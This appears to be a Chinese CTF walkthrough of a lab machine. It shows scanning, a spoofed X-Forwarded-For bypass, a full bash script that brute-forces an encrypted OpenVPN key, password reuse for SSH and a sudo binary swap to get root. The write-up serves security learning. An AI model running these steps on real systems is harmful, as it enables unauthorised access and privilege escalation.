



## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/homelab  
❯ nmap 192.168.55.41 -sV -A -p- 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Unix))
|_http-favicon: Apache on Mac OS X
|_http-title: Mac OS X Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.62 (Unix)
```

只有`80`端口开放了

## Dir Fuzz

```
[root@kali] /home/kali/homelab  
❯ dirsearch -u http://192.168.55.41  

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://192.168.55.41/

[04:47:54] Scanning:                                                                                                                            
[04:48:00] 200 - 820B - /cgi-bin/printenv                                 
[04:48:00] 200 - 1KB - /cgi-bin/test-cgi                                 
[04:48:01] 200 - 4KB - /error.html                                       
[04:48:01] 200 - 8KB - /favicon.ico                                      
[04:48:02] 200 - 5KB - /index.html                                       
[04:48:05] 301 - 313B - /script  ->  http://192.168.55.41/script/         
[04:48:05] 403 - 276B - /script/
[04:48:06] 301 - 314B - /service  ->  http://192.168.55.41/service/       
[04:48:06] 301 - 319B - /service?Wsdl  ->  http://192.168.55.41/service/?Wsdl
[04:48:06] 301 - 312B - /style  ->  http://192.168.55.41/style/           
[04:48:10] 403 - 276B - /server-status/                                    
[04:48:11] 403 - 276B - /server-status

Task Completed                                                                                                                                  

[root@kali] /home/kali/homelab  
❯ curl http://192.168.55.41/service/      
Whoa! But sorry, this service is only available for myself!#                                                                                    
```

看到有一个`service`路径，但是好像需要认证

尝试扫描目录下的文件，发现一个`vpn.txt`，但是无法读取

```
[root@kali] /home/kali/homelab  
❯ feroxbuster -u 'http://192.168.55.41/service/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt --dont-filter -s 403  ⏎
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.41/service/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt]
 🏁  HTTP methods          │ [GET]
 🤪  Filter Wildcards      │ false
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      276c http://192.168.55.41/service/vpn.txt
```

换`dirsearch`扫一下

```
[root@kali] /home/kali/homelab  
❯ dirsearch -u http://192.168.55.41/service/

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://192.168.55.41/

[04:56:21] Scanning: service/                                                                                                                   
[04:56:22] 403 - 276B - /service/.ht_wsr.txt                              
[04:56:22] 403 - 276B - /service/.hta
[04:56:22] 403 - 276B - /service/.htaccess
[04:56:22] 403 - 276B - /service/.htaccess-dev
[04:56:22] 403 - 276B - /service/.htaccess.bak
[04:56:22] 403 - 276B - /service/.htaccess-marco
[04:56:22] 403 - 276B - /service/.htaccess.bak1
[04:56:22] 403 - 276B - /service/.htaccess.orig
[04:56:22] 403 - 276B - /service/.htaccess.BAK
[04:56:22] 403 - 276B - /service/.htaccess.old
[04:56:22] 403 - 276B - /service/.htaccess.sample
[04:56:22] 403 - 276B - /service/.htaccess.inc
[04:56:22] 403 - 276B - /service/.htaccess-local
[04:56:22] 403 - 276B - /service/.htaccess.txt
[04:56:22] 403 - 276B - /service/.htaccess.save
[04:56:22] 403 - 276B - /service/.htaccess/
[04:56:22] 403 - 276B - /service/.htaccess_extra
[04:56:22] 403 - 276B - /service/.htaccess_orig
[04:56:22] 403 - 276B - /service/.htaccess_sc
[04:56:22] 403 - 276B - /service/.htaccessBAK
[04:56:22] 403 - 276B - /service/.htaccessOLD
[04:56:22] 403 - 276B - /service/.htaccessOLD2
[04:56:22] 403 - 276B - /service/.htaccess~                               
[04:56:22] 403 - 276B - /service/.htgroup
[04:56:22] 403 - 276B - /service/.htm
[04:56:22] 403 - 276B - /service/.html
[04:56:22] 403 - 276B - /service/.htpasswd-old
[04:56:22] 403 - 276B - /service/.htpasswd/
[04:56:22] 403 - 276B - /service/.htpasswd.bak
[04:56:22] 403 - 276B - /service/.htpasswd.inc
[04:56:22] 403 - 276B - /service/.htpasswd
[04:56:22] 403 - 276B - /service/.htpasswd_test
[04:56:22] 403 - 276B - /service/.httr-oauth
[04:56:22] 403 - 276B - /service/.htusers
[04:56:22] 403 - 276B - /service/.htpasswds
[04:56:27] 200 - 1KB - /service/ca.crt                                   
[04:56:29] 200 - 59B - /service/index.php                                
[04:56:30] 200 - 59B - /service/index.php/login/                         
                                                                             
Task Completed                                                                                                                                  
```

存在一个`ca.crt`的证书文件，那么还有可能存在其他的证书文件呢？

```
[root@kali] /home/kali/homelab  
❯ feroxbuster -u 'http://192.168.55.41/service/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x crt,key                   ⏎
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.55.41/service/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [crt, key]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l       10w       59c http://192.168.55.41/service/
200      GET       20l       22w     1200c http://192.168.55.41/service/ca.crt
200      GET       84l      139w     4492c http://192.168.55.41/service/client.crt
200      GET       30l       36w     1862c http://192.168.55.41/service/client.key
[####################] - 29s   661638/661638  0s      found:4       errors:0      
[####################] - 28s   661638/661638  23331/s http://192.168.55.41/service/                                                             
```

可以看到扫出来三个文件，由于无法直接利用，之前又扫到一个`vpn.txt`，尝试扫描一下`UDP`端口

```
[root@kali] /home/kali/homelab  
❯ nmap 192.168.55.41 -sU -p 1194        

PORT     STATE SERVICE
1194/udp open  openvpn
```

可以看到`openvpn`的端口是开着的，可以联想到使用证书文件连接`vpn`到内部网络

## 403 Bypass

还是得看看`vpn.txt`里的内容，这里尝试使用`X-Forwared-For`头进行绕过

直接使用`127.0.0.1`不行，那么还是得爆破一下，用当前网卡段

```
[root@kali] /home/kali/homelab  
❯ echo {0..255} > ip.txt 

[root@kali] /home/kali/homelab  
❯ ffuf -u 'http://192.168.55.41/service/' -H 'X-Forwarded-For: 192.168.55.FUZZ' -w ip.txt -fs 59 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.55.41/service/
 :: Wordlist         : FUZZ: /home/kali/homelab/ip.txt
 :: Header           : X-Forwarded-For: 192.168.55.FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 59
________________________________________________

41                      [Status: 200, Size: 326, Words: 41, Lines: 22, Duration: 6ms]
```

可以看到有一个特殊的值

其中有一个用户名**shinosawa**

```
[root@kali] /home/kali/homelab  
❯ curl http://192.168.55.41/service/ -H 'X-Forwarded-For: 192.168.55.41'
# Last modified by shinosawa
# on 2024-12-21

# Example Configuration File

client
dev tun
proto udp
remote ? ?
resolv-retry infinite
nobind
persist-key
persist-tun
ca ?
cert ?
# Regenerate a STRONG password for the KEY
# Do NOT use a SAME password as other services et. SSH
# it is DANGEROUS!
key ?
cipher AES-256-GCM
verb 3
```

## PKCS8 Brute

其中的问号似乎就是用之前获得的东西来替换

当然如果你打过`HTB`，那么就对`openvpn`的格式就比较熟悉了，大致是这样，将内容填进去就行了

[Openvpn客户端配置文件参数说明client配置文件-CSDN博客](https://blog.csdn.net/qq_38407462/article/details/134075773)

```
client
dev tun
proto udp
remote 192.168.55.41 1194
resolv-retry infinite
nobind
persist-key
persist-tun

<ca>

</ca>

<cert>

</cert>

<key>

</key>
cipher AES-256-GCM
verb 3
```

保存后尝试使用的话，会需要输入密码，原因就在于`client.key`设定了密码

因此可以写一个脚本来进行爆破

```
#!/bin/bash

# 修复版 OpenSSL 私钥字典攻击脚本
# 用法: ./dict_attack.sh <加密私钥文件> <字典文件>

# 颜色定义
RED='\033[0;31m'
GREEN='\033[0;32m'
NC='\033[0m' # 无颜色

# 检查参数
if [ $# -ne 2 ]; then
    echo -e "${RED}错误: 需要两个参数${NC}"
    echo "用法: $0 <加密私钥文件> <字典文件>"
    exit 1
fi

KEY_FILE="$1"
DICT_FILE="$2"
DECRYPTED_KEY="decrypted_$(date +%s).key"

# 检查文件
[ -f "$KEY_FILE" ] || { echo -e "${RED}错误: 密钥文件不存在${NC}"; exit 1; }
[ -f "$DICT_FILE" ] || { echo -e "${RED}错误: 字典文件不存在${NC}"; exit 1; }

# 检查 OpenSSL
command -v openssl >/dev/null || { echo -e "${RED}错误: OpenSSL 未安装${NC}"; exit 1; }

# 获取字典行数
TOTAL=$(wc -l < "$DICT_FILE")
COUNT=0
START=$(date +%s)

echo -e "目标密钥: $KEY_FILE"
echo -e "使用字典: $DICT_FILE (共 $TOTAL 个密码)"
echo -e "开始攻击...\n"

# 主循环
while IFS= read -r PASS; do
    ((COUNT++))
    
    # 更安全的进度计算（不使用bc）
    PERCENT=$((COUNT*100/TOTAL))
    
    # 每100次或最后一行显示进度
    if [ $((COUNT % 100)) -eq 0 ] || [ $COUNT -eq $TOTAL ]; then
        printf "进度: %3d%% (%d/%d) 当前密码: %-20s\r" $PERCENT $COUNT $TOTAL "$PASS"
    fi
    
    # 尝试解密
    if openssl pkcs8 -in "$KEY_FILE" -out "$DECRYPTED_KEY" -passin "pass:$PASS" 2>/dev/null; then
        echo -e "\n\n${GREEN}成功找到密码: $PASS${NC}"
        echo -e "${GREEN}解密后的密钥已保存到: $DECRYPTED_KEY${NC}"
        
        # 验证密钥
        echo -e "\n密钥信息:"
        if openssl rsa -in "$DECRYPTED_KEY" -noout -text 2>/dev/null | head -n 5; then
            echo -e "${GREEN}密钥验证成功!${NC}"
        else
            echo -e "${RED}警告: 密钥验证失败${NC}"
        fi
        
        exit 0
    fi
done < "$DICT_FILE"

# 攻击失败
echo -e "\n\n${RED}攻击失败，未找到正确密码${NC}"
echo -e "已尝试 $COUNT 个密码"
echo -e "耗时: $(( $(date +%s) - $START )) 秒"
exit 1
```

当然这里为了节省时间，我直接就换了一个字典😂

```
[root@kali] /home/kali/homelab  
❯ ./poc.sh client.key /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt                                                 ⏎
目标密钥: client.key
使用字典: /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt (共 1000000 个密码)
开始攻击...

进度:   2% (23600/1000000) 当前密码: hobbs               

成功找到密码: hiro
解密后的密钥已保存到: decrypted_1747218048.key

密钥信息:
Private-Key: (2048 bit, 2 primes)
modulus:
    00:a4:18:af:59:be:6f:36:31:64:7f:6b:60:da:ba:
    ec:89:3e:10:7b:90:4c:99:1b:55:fe:d2:c1:77:8d:
    47:15:a9:59:f8:df:9c:48:ed:32:0a:2c:56:fa:00:
密钥验证成功!
```

然后连接上去



## User

用`fscan`看看其他主机，除了自己，还有一个`10.8.0.1`，也就是靶机，但没什么用。

```
[root@kali] /home/kali/Desktop  
❯ ./fscan -h 10.8.0.0/24                                                                     
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0
                                                                                                                                                
[2025-05-14 08:24:06] [INFO] 暴力破解线程数: 1                                                                                                  
[2025-05-14 08:24:06] [INFO] 开始信息扫描
[2025-05-14 08:24:06] [INFO] CIDR范围: 10.8.0.0-10.8.0.255
[2025-05-14 08:24:06] [INFO] 生成IP范围: 10.8.0.0.%!d(string=10.8.0.255) - %!s(MISSING).%!d(MISSING)
[2025-05-14 08:24:06] [INFO] 解析CIDR 10.8.0.0/24 -> IP范围 10.8.0.0-10.8.0.255
[2025-05-14 08:24:06] [INFO] 最终有效主机数量: 256
[2025-05-14 08:24:06] [INFO] 开始主机扫描
[2025-05-14 08:24:06] [SUCCESS] 目标 10.8.0.2        存活 (ICMP)
[2025-05-14 08:24:06] [SUCCESS] 目标 10.8.0.1        存活 (ICMP)
[2025-05-14 08:24:09] [INFO] 存活主机数量: 2
[2025-05-14 08:24:09] [INFO] 有效端口数量: 233
[2025-05-14 08:24:10] [SUCCESS] 端口开放 10.8.0.1:80
```

回头再看一下日志，发现另一个`ip`



再扫一下他的网段

```
[root@kali] /home/kali/Desktop  
❯ ./fscan -h 10.176.13.0/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0
                                                                                                                                                
[2025-05-14 08:31:47] [INFO] 暴力破解线程数: 1                                                                                                  
[2025-05-14 08:31:47] [INFO] 开始信息扫描
[2025-05-14 08:31:47] [INFO] CIDR范围: 10.176.13.0-10.176.13.255
[2025-05-14 08:31:47] [INFO] 生成IP范围: 10.176.13.0.%!d(string=10.176.13.255) - %!s(MISSING).%!d(MISSING)
[2025-05-14 08:31:47] [INFO] 解析CIDR 10.176.13.0/24 -> IP范围 10.176.13.0-10.176.13.255
[2025-05-14 08:31:47] [INFO] 最终有效主机数量: 256
[2025-05-14 08:31:47] [INFO] 开始主机扫描
[2025-05-14 08:31:47] [SUCCESS] 目标 10.176.13.37    存活 (ICMP)
[2025-05-14 08:31:50] [INFO] 存活主机数量: 1
[2025-05-14 08:31:50] [INFO] 有效端口数量: 233
[2025-05-14 08:31:50] [SUCCESS] 端口开放 10.176.13.37:22
[2025-05-14 08:31:50] [SUCCESS] 端口开放 10.176.13.37:80
[2025-05-14 08:31:50] [SUCCESS] 服务识别 10.176.13.37:22 => [ssh] 版本:9.9 产品:OpenSSH 信息:protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.9.]
[2025-05-14 08:31:55] [SUCCESS] 服务识别 10.176.13.37:80 => [http]
[2025-05-14 08:31:55] [INFO] 存活端口数量: 2
```

找到一个存活IP：**10.176.13.37**，也是指向靶机，但是多了一个`ssh`端口开放

尝试使用之前在`XFF Bypass`部分中获取到的用户名，密码用`hiro`成功登录

```
[root@kali] /home/kali/homelab  
❯ ssh shinosawa@10.176.13.37                                                                                                                  ⏎
shinosawa@10.176.13.37's password: 

homelab:~$ id
uid=1000(shinosawa) gid=1000(shinosawa) groups=100(users),1000(shinosawa)
homelab:~$ 
```

## Root

查看`sudo -l`

```
homelab:~$ sudo -l
Matching Defaults entries for shinosawa on homelab:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for shinosawa:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User shinosawa may run the following commands on homelab:
    (ALL) NOPASSWD: /home/shinosawa/deepseek
```

拖出来看看伪代码，似乎是一个栈溢出

```
__int64 vuln()
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  printf(">>> ");
  fflush(stdout);
  fgets(s, 256, stdin);
  return typewriter_output();
}

void __noreturn execute()
{
  puts("[*] in execute()");
  fflush(stdout);
  puts("[*] running shell");
  fflush(stdout);
  execl("/bin/sh", "sh", 0LL);
  perror("execl failed");
  exit(1);
}
```

我尝试过这种方式

```
homelab:~$ cat payload.bin  |  sudo /home/shinosawa/deepseek 
>>> <think>
Emm, I'm so tired and don't want to answer any questions.
</think>

Thinking has stopped.
The server is busy, please try again later.
[*] in execute()
[*] running shell
```

但是好像并不能获得到`shell`，我也尝试过`ret2shellcode`解法，但是好像没有可执行段（可能是我pwn太菜了



回到机器本身，注意到该文件在用户的家目录下，因此可以任意修改。

```
homelab:~$ rm deepseek 
rm: remove 'deepseek'? y
homelab:~$ echo 'sh' > deepseek
homelab:~$ chmod +x deepseek 
homelab:~$ sudo /home/shinosawa/deepseek 
/home/shinosawa # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/home/shinosawa # 
```

## Summary

User: 目录扫描得到`openvpn`的关键文件，通过`pkcs8`爆破密码成功进入内网，扫描内网存活主机，通过`22`端口登录。

Root: 家目录直接修改文件。
